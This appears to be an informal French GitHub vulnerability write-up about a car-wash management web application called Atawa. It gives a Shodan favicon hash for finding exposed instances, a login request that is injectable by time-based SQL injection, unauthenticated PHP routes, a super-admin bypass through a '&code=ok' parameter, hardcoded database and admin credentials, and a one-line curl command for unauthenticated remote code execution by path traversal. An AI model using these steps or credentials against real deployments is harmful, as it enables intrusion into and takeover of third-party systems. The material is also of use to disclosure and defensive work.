 ![autowash-5th-element](https://github.com/Ug0Security/Atawash/assets/28728543/1dd4431c-3469-4514-9398-7ffa71aa71ef)

Je rentre de vacances et j'ai pas de mission..

shodan : http.favicon.hash:-991649870

--- SQLi sur le login mais time based on se fait chier ---


POST /index_connexion_atawa.php?resolution=1920x1080 HTTP/1.1\
Host: xx\
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0\
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8\
Accept-Language: en-GB,en;q=0.5\
Accept-Encoding: gzip, deflate\
Content-Type: application/x-www-form-urlencoded\
Content-Length: 19\
Origin: xx\
Connection: close\
Cookie: PHPSESSID=ww\
Upgrade-Insecure-Requests: 1

login=test&pwd=test



--- Vlà les manques de controle d'accès sur les fichiers .php dont route sont décritent dans les fichiers js--- 

/choix/choix_version_svg.php?resolution=1920x1080\
/config/configubuntu.php?resolution=1920x1080
...

--- Bypass auth super-admin (alors celle la..) ---

/systeme/super_administrateur.php?resolution=1920x1080 (oh lala besoin d'un mdp..)\
/systeme/super_administrateur.php?resolution=1920x1080&code=ok (ah non c'est bon)


--- Hardcoded creds ---

/phpmyadminatawa/index.php (MySQL_Atawa:Atawa&13)\
/systeme/super_administrateur.php (33310 - hardcoded dans le js..)

--- UnAuth RCE (ayayay vie d'ma mèrrrrrr)---

curl -F "script_name=../../../../../../../../../usr/bin/id" http://url:port/systeme/get_monitor_script.php

